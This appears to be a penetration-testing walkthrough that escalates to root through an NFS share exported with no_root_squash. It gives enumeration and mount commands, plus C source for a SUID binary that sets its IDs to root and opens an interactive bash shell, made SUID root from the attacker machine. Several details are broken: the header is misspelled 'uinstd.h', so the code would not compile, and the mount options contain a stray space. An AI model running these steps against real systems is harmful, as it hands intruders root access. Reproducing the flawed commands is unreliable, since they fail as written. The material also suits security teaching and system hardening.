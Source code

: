 # Introduction
The compromised machine may be configured to allow certain directories to be mounted by other machines. You can enumerate such directories by running the following command on the victim machine:

```bash
cat /etc/exports
```

![](Resources/Images/NFS%20Root%20Squashing/Enumerate%20Mountable%20Directories.png)

You can additionally verify this from your attacker machine by running:

```bash
showmount -e <victim IP>
```

![](Resources/Images/NFS%20Root%20Squashing/Confirm%20Mountable%20Directories.png)

If there is a mountable directory which is configured as `no_root_squash`, as is the case here, then it can be used for privilege escalation.

We begin by mounting the target directory from the victim to a directory on our machine:
```bash
sudo mount -o rw, vers=3 <victim IP>:/tmp /tmp/root_squash
```

Now, if `no_root_sqaush` is configured for the mountable directory, then the root user on the attacker machine will get mirrored on the victim machine. In essence, any command run as root on the attacker machine, will also be executed as root on the victim! This can allow us to create a malicious binary in the mounted directory and set its SUID bit from the attacker machine. This action will be mirrored by the victim and we will essentially have an SUID binary on the target which is all under our control.

Let's write a simple malicious C executable:
```cpp
#include <uinstd.h>
#include <stdlib.h>

int main()
{
	setuid(0); // Set user ID to root
	setgid(0); // Set group ID to root
	system("/bin/bash -i"); // Execute bash now with elevated privileges

	return 0;
}
```

It doesn't matter if you create it on the target or the attacker machine, but you *must* compile it on the target machine in order to avoid library version mismatches:

```bash
gcc -o nfs_exploit nfs_exploit.c
```

![](Resources/Images/NFS%20Root%20Squashing/Compile%20On%20Target.png)

Next, you want to change the ownership of the compiled binary to `root` *on the attacker machine*. Afterwards, you want to set the SUID bit on the binary, once again, *from the attacker machine*:
```bash
sudo chown root:root nfs_exploit
sudo chmod +s nfs_exploit
```

![](Resources/Images/NFS%20Root%20Squashing/Change%20Ownership%20and%20Permission%20on%20the%20Attacking%20Machine.png)
![](Resources/Images/NFS%20Root%20Squashing/Ownership%20and%20Permissions%20from%20the%20Target's%20POV.png)

Finally, execute the malicious binary *on the target*:

![](Resources/Images/NFS%20Root%20Squashing/NFS%20Exploit.png)